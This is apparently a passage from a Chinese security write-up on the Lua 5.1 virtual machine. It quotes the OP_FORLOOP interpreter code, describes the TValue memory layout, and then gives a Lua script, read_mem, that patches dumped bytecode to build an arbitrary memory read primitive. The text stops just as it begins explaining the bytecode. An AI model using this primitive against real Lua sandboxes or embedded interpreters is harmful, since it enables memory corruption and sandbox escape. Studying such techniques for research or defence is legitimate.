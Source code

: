 ```
case OP_FORLOOP: {
        lua_Number step = nvalue(ra+2);
        lua_Number idx = luai_numadd(nvalue(ra), step); /* increment index */
        lua_Number limit = nvalue(ra+1);
        if (luai_numlt(0, step) ? luai_numle(idx, limit)
                                : luai_numle(limit, idx)) {
          dojump(L, pc, GETARG_sBx(i));  /* jump back */
          setnvalue(ra, idx);  /* update internal index... */
          setnvalue(ra+3, idx);  /* ...and external index */
        }
        continue;
      }

```

forloop指令直接将循环参数转换为lua_Number(double)类型，（因为正常情况下forprep已经检查过类型了），然后执行加法（+ 0），执行dojump return x；返回lua_Number。

LUA使用TValue表示通用数据对象，格式如下:

| Value(64bit) | tt(32bit) | padd(32bit) |
| --- | --- | --- |
| n | `LUA_TNUMBER` |  |
| `GCObject *gc; -> TString*` | `LUA_TSTRING` |  |
| `GCObject *gc; -> Closure*` | `LUA_TFUNCTION` |  |

0x01 LUA任意内存读/写
=====

```
read_mem = loadstring(string.dump(function(mem_addr) 
  local magic=nil
  local function middle()
    local f2ii, asnum = f2ii, asnum
    local lud, upval
    local function inner()
      magic = "01234567"
      local lo,hi = f2ii(mem_addr)
      upval = "commonhead16bits"..ub4(lo)..ub4(hi)
      lo,hi = f2ii(asnum(upval));lo = lo+24
      magic = magic..ub4(lo)..ub4(hi)..ub4(lo)..ub4(hi)
    end
    inner()
    return asnum(magic)
  end
  magic = middle()
  return magic
end):gsub("(\164%z%z%z)....", "%1\0\0\128\1", 1))  --> move 0,3

```

先看最外部函数，对应的LUA字节码如下：
